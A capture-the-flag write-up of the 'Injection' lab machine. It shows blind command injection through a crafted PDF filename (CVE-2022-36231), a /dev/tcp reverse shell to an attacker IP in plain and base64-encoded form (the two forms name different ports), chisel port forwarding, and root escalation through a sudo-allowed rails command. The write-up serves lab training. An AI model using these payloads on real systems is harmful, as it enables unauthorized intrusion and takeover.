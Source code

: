```yaml
---
title: 'Injection Writeup'
date: '2024-11-25'
tags: ['CVE-2022-36231', 'Command Injection', 'Linux', 'Hacking Club']
draft: false
summary: 'The Injection machine is vulnerable to Command Injection (CVE-2022-36231) and privilege escalation via sudo.'
images: ['/static/images/injection-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/injection-writeup-images/default.png)

---

## **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 12:68:ac:62:e8:c0:bf:55:25:85:06:96:4b:99:bb:4a (ECDSA)
|_  256 65:dc:ed:09:75:7b:d2:d9:a0:19:e5:1c:e7:1d:14:53 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings:
|   GenericLines, Help, NCP:
|     HTTP/1.1 400 Bad Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 0
|     X-Content-Type-Options: nosniff
|     X-Download-Options: noopen
|     X-Permitted-Cross-Domain-Policies: none

```

Only ports 22 (SSH) and 3000 (HTTP) are open.

---

## Enumeration

`http://172.16.4.120:3000`

This is an application called &&PDFInfo&&, capable of reading PDF metadata.

![injection](/static/images/injection-writeup-images/image.png)

When uploading a PDF, we can see that the application is developed in Ruby:

![injection 1](/static/images/injection-writeup-images/image1.png)

By searching for pdfinfo ruby exploit, we find associated CVEs.

[https://github.com/affix/CVE-2022-36231](https://github.com/affix/CVE-2022-36231)

![injection 2](/static/images/injection-writeup-images/image2.png)

In this specific case, we have a **Command Injection** vulnerability.

I tested the `id` command but got no success, indicating a **Blind Command Injection**.

Using the `sleep 5` command, we observe a delay in the response.

`;$(sleep 5).pdf`

![injection 3](/static/images/injection-writeup-images/image3.png)

---

## Foot Hold

Passing the reverse shell in the traditional way does not work, so the alternative was to encode the payload in base64 before sending.

`echo "bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1234 <&1'" | base64`

`echo -n YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMC4zMS4xNTAvMTMzNyA8JjEnCg== |base64 -d|sh`

![injection 4](/static/images/injection-writeup-images/image4.png)

---

## Privillege Escalation

We can execute the command `/usr/local/bin/rails server -e development -p 8000` as root.

`sudo -l`

![injection 5](/static/images/injection-writeup-images/image5.png)

`rm /home/deployer/pdf-read-metadata/tmp/pids/server.pid`

`sudo /usr/local/bin/rails server -e development -p 8000`

![injection 6](/static/images/injection-writeup-images/image6.png)

Now that we can start the application as root, we need to perform Port Forwarding to access the application from our machine.

The server has an accessible SSH service, but this time I used the **chisel** tool.

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

To perform Port Forwarding, we need to transfer **chisel** to the target machine.

`python -m http.server 80`

![injection 7](/static/images/injection-writeup-images/image7.png)

`wget http://10.0.31.150/chisel`

![injection 8](/static/images/injection-writeup-images/image8.png)

After that, on our machine, we start the chisel server.

`./chisel server -p 9000 --reverse`

![injection 9](/static/images/injection-writeup-images/image9.png)

Now on the target machine, we perform **Port Forwarding**.

Note: I used two shells to execute this successfully.

`sudo /usr/local/bin/rails server -e development -p 8000` # in the **/pdf-read-metadata directory**

`./chisel client 10.0.31.150:9000 R:8000:127.0.0.1:8000` # in the **/tmp directory**

![injection 10](/static/images/injection-writeup-images/image10.png)

Now we can access the application from our machine.

![injection 11](/static/images/injection-writeup-images/image11.png)

Now, we just need to get the reverse shell the same way as before, but this time as root.

![injection 12](/static/images/injection-writeup-images/image12.png)

---

## Proof

![injection 13](/static/images/injection-writeup-images/image13.png)

